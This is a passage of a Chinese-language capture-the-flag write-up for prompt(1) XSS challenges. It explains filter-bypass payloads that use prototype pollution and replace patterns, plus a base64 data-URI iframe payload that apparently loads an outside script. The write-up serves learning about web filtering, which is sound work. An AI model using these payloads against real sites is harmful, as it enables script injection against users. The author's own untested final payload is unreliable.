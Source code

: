 根据这样的特点，我们可以初步构造payload：
`{"source":"0","__proto__":{"source":"onerror=prompt(1)"}}`
但是并不能绕过题目的过滤，于是便要利用replace的一个特性

![img](https://xzfile.aliyuncs.com/media/upload/picture/20190326141703-c618e428-4f8e-1.jpg)

```bash
>'11223344'.replace('2',"test")
"11test23344"
>'11223344'.replace('2',"$`test")
"1111test23344"
>'11223344'.replace('2',"$'test")
"1123344test23344"
>'11223344'.replace('2',"$&test")
"112test23344"
```

老实说这一段我参考别人的wp做了实验后还是不能很好的理解为什么replace会有这些特殊的参数用法，只能暂时先记住这些用法所构造的字符串的规律。因此针对本题就可以构造出我们的payload了

payload： 

````js
{"source":"'","__proto__":{"source":"$`onerror=prompt(1)>"}}
````

## E  --别人的WP

```js
function escape(input) {
    // I expect this one will have other solutions, so be creative :)
    // mspaint makes all file names in all-caps :(
    // too lazy to convert them back in lower case
    // sample input: prompt.jpg => PROMPT.JPG
    input = input.toUpperCase();
    // only allows images loaded from own host or data URI scheme
    input = input.replace(/\/\/|\w+:/g, 'data:');
    // miscellaneous filtering
    input = input.replace(/[\\&+%\s]|vbs/gi, '_');

    return '<img src="' + input + '">';
}
```

本题的输入都为大写字母，并且把//和任意字母替换成data：，看来是要构造data URI格式的payload，后面还将\&和空白字符都替换了，所以不能使用十六进制字符。

正常的data URI应该是类似下面这样的

```html
<a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgiWFNTIik8L3NjcmlwdD4=">test<a>
```

其中base64解码出来的结果是`<script>alert("XSS")</script>`
但是本题的输入全被转换成大写的，正常的payload是无法被解析，老实说这题的官方答案都无法成功执行，看解释的大概意思我猜是火狐浏览器是可以支持大写的base64的解析，然后精心构造一个大写的base64编码，解码后恰好可以达到上面的效果，便能够成功执行，但是我实验后是失败的，我看其他人的wp也都说失败了，emmm不是很清楚具体原因是什么。

参考payload："><IFRAME/SRC="x:text/html;base64,ICA8U0NSSVBUIC8KU1JDCSA9SFRUUFM6UE1UMS5NTD4JPC9TQ1JJUFQJPD4=
